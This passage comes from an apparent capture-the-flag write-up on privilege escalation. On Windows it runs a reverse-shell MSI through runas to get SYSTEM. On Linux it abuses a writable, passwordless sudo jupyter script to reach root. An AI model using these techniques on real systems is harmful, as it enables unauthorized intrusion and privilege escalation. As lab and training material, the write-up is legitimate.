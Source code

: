 ```cmd
msiexec /quiet /qn /i rev.msi
```
But the revshell doesn't get executed due to the low integrity level that the default shell start the process at.
To elevate our integrity level we just need to run the command with our effective user with `runas`:
```cmd
runas /user:dev-datasci-lowpriv "msiexec /quiet /qn /i C:\Users\dev-datasci-lowpriv\Desktop\rev.msi"
```
!!Is important to use the full path when we call runas!!
<br>

!!Is also important to use a stable shell, because runas will prompt us with a password!!
<br>

Once we typed the password we found above we can get our revshell as `nt authority\system`. Now we can upload meterpreter.

# Privesc Linux

This machine is very particular because is marked as a windows machine but i also found a way to access to the full file-system by just abusing the wsl that we got in from the web-server shell.
<br>

In fact by running:
```bash
sudo -l
```
output:
```bash
Matching Defaults entries for dev-datasci on DEV-DATASCI-JUP:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev-datasci may run the following commands on DEV-DATASCI-JUP:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /home/dev-datasci/.local/bin/jupyter, /bin/su dev-datasci -c *
```
the first line is pretty interesting but we don't have credentials and the ones we found on windows doesn't work.
<br>

The second line instead is pretty interesting because we can run 2 scripts without passsword. The second script `/bin/su dev-datasci -c *` i coulden't exploit it because it switch to dev-datasci user (who we already are) and execute every code in the current directory.
<br>

The first script instead is pretty helpfull `/home/dev-datasci/.local/bin/jupyter`, in fact we can run this script as root;
but if we search this file is empty and in a directory that we can write to:
	
![root exploit](./pic/root.png)
	